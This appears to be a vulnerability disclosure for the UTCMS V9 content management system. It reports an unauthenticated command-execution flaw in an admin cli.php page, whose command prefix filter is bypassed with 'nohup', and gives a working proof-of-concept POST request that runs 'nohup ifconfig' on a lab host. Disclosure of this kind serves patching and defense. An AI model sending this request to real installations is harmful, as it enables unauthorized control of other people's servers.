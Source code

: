 # Vendor

HuangDou

# Product

UTCMS

# version

 V9

# Download 

https://gitee.com/usualtool/ut-cms

# Vulnerability

RCE

# Description

The cli.php page can execute system commands without authentication. Although filtering exists, it is not strict.

# Analysis

1. The app/modules/ut-cac/admin/cli.php page can be accessed directly, and there is no authentication for this page.
<img width="1599" alt="image" src="https://github.com/user-attachments/assets/94deb22d-af2a-422e-9076-8dcb833463a9">

2. The filtering rules stipulate that commands can only start with cd, php, nohup, or composer. However, system commands can be executed using "nohup whoami".
<img width="939" alt="image" src="https://github.com/user-attachments/assets/e1b1ca58-8092-426a-950d-ed528d9b8abf">

# POC
```
POST /app/modules/ut-cac/admin/cli.php HTTP/1.1
Host: 192.168.17.24
Content-Length: 16
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Origin: http://192.168.17.24
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

o=nohup ifconfig
```
